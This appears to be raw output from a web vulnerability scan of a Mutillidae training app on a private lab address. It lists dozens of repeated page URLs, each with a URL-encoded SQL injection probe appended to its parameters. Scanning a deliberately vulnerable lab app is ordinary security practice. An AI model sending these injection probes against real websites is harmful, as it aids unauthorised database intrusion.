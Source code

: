     http://192.168.60.2:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
    http://192.168.60.2:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=usage-instructions.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=set-background-color.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=notes.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=home.php&do=toggle-security%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=source-viewer.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=installation.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=source-viewer.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=add-to-your-blog.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=add-to-your-blog.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=secret-administrative-pages.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=text-file-viewer.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=home.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=home.php&do=toggle-hints%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=register.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=credits.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=capture-data.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=user-info.php%27%20OR%20sqlspider
    http://192.168.60.2:80/dav/?C=N%3BO%3DD%27%20OR%20sqlspider
    http://192.168.60.2:80/dav/?C=S%3BO%3DA%27%20OR%20sqlspider
    http://192.168.60.2:80/dav/?C=D%3BO%3DA%27%20OR%20sqlspider
    http://192.168.60.2:80/dav/?C=M%3BO%3DA%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=login.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=show-log.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=view-someones-blog.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=show-log.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=credits.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=user-poll.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=dns-lookup.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=text-file-viewer.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=password-generator.php%27%20OR%20sqlspider&username=anonymous
    http://192.168.60.2:80/mutillidae/index.php?page=framing.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=site-footer-xss-discussion.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=pen-test-tool-lookup.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=login.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=arbitrary-file-inclusion.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=captured-data.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=view-someones-blog.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/?page=user-info.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=browser-info.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=documentation%2Fhow-to-access-Mutillidae-over-Virtual-Box-network.php%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=change-log.htm%27%20OR%20sqlspider
    http://192.168.60.2:80/mutillidae/index.php?page=documentation%2Fvulnerabilities.php%27%20OR%20sqlspider